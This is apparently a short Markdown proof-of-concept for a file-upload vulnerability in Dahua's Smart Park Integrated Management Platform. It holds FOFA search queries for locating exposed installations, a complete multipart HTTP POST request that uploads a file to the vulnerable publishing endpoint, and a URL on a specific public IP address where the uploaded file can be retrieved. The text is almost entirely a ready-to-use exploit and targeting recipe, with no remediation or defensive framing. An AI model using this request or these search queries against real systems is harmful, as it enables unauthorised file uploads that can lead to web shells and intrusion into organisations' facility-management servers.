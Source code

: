 # 大华智慧园区综合管理平台 sourcepublishingpublishingmaterialfilevideo 文件上传漏洞

    ## fofa

```
body="src=\"/WPMS/asset/common/js/jsencrypt.min.js\""

product="dahua-智慧园区综合管理平台"
```

## poc

http://110.188.114.27:30000/publishingImg/VIDEO/230809113241124030.txt

```
POST /publishing/publishing/material/file/video HTTP/1.1
Host: 110.188.114.27:30000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=dd8f988919484abab3816881c55272a7
Accept-Encoding: gzip
Content-Length: 151

--dd8f988919484abab3816881c55272a7
Content-Disposition: form-data; name="Filedata"; filename="test.txt"

test
--dd8f988919484abab3816881c55272a7--
```
